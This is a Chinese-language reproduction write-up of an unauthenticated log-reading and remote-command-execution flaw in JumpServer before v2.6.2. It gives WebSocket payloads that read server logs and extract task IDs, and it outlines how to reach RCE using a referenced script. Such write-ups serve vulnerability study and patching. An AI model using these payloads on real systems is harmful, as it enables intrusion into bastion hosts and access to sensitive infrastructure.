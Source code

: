 # 0x00 软件介绍
JumpServer：一款在中国流行的开源堡垒机

# 0x01 复现环境
复现环境：本地环境 centos7 x64  
复现版本：JumpServer v2.6.1  
环境搭建：  
1、使用官方提供的v2.6.1的quick_start.sh安装后，竟然后v2.6.2，这个坑真是无语了，使用知识星球师傅提供的安装脚本，安装后是v2.6.1（这个安装脚本执行后可能会报错，多试几次），安装脚本被上载到当前目录下  
2、执行quick_start.sh后，一路默认即可  
3、安装完成后需要切换到/opt/jumpserver-installer-v2.6.1/下执行jmsctl.sh，直接使用绝对路径会报错  
4、需要开启iptables，否则报错  
5、重新安装2.6.1后，本地能访问，远程不能访问，无奈再次重新安装centos7以及JumpServer v2.6.1

# 0x02 利用条件
无

# 0x03 影响版本
JumpServer < v2.6.2  
JumpServer < v2.5.4  
JumpServer < v2.4.5

# 0x04 漏洞复现
攻击环境：kali x64  
chrome下安装扩展：https://chrome.google.com/webstore/detail/websocket-test-client/fgponpodhbmadfljofbimhhlengambbn/related  
远程日志读取payload：  
```
ws://192.168.1.73:8080/ws/ops/tasks/log/
{"task":"/opt/jumpserver/logs/jumpserver"}
```
如下图，红色圈出的部分即为读取到的远程服务器上的日志内容  
![image](./a1.png)

如下图，红色圈出的部分即为服务器上的日志内容  
![image](./a0.png)

至于远程命令执行，首先需要在返回的信息中获取Taskid
```
ws://xx.xx.xx.xx:8080/ws/ops/tasks/log/
{"task":"/opt/jumpserver/logs/jumpserver"}
```
如下图（下图摘自别人的文章）  
![image](./0.png)  
利用上一步得到的Taskid，可进行进一步的信息获取，将Taskid值send给接口，即可查看到当前任务的详细信息。
```
{"task":"dc0533d8-078a-47c0-b554-01f368a89a19"}
```
可能有些小伙伴在复现读取Taskid信息时没有成功，我也一样，我们获取到的内容取决于日志记录的内容，一些Taskid可能已经失效了，在进行测试的时候可以看一下当前Taskid对应的时间，过于久远的id肯定是无法获取详情的。同理也能解释为什么在很多次测试中没有搜索到system_user这个字段，如果在实战中运气足够好，正好赶上管理员登陆了系统未退出，在日志中获取到system_user、user、asset这三个字段，则可以RCE，脚本参考jumpserver-rce.py

原理是模拟web terminal，前提需要user、system_user、assert这三个字段的值，这3个一般读取不到，利用难度较大

# 0x05 批量脚本
无

# 0x06 参考链接
https://articles.zsxq.com/id_5raonmuwqrru.html  
https://mp.weixin.qq.com/s?__biz=MzI5ODk3OTM1Ng==&mid=2247497420&idx=1&sn=49b6179b24a4275f016a80b16ba401aa&chksm=ec9f2fbfdbe8a6a9318f7ba90eaca911692ae24f72591225efb19eab4852cf8e893936ee2a06&mpshare=1&scene=1&srcid=01183gic1iE9CgPOeU1ZKNoQ&sharer_sharetime=1610978241607&sharer_shareid=39e4b7efe0bb5b2e5770f3a926f3062d&exportkey=AUvxarwZSXcAl0lXgRSI%2F2o%3D&pass_ticket=rI5WvWxPWj9wFDSMj42xLhizShWaMpx4MwP7SFhDHLUZpJ0zrnUrOlEEfOlgFO8t&wx_header=0#rd
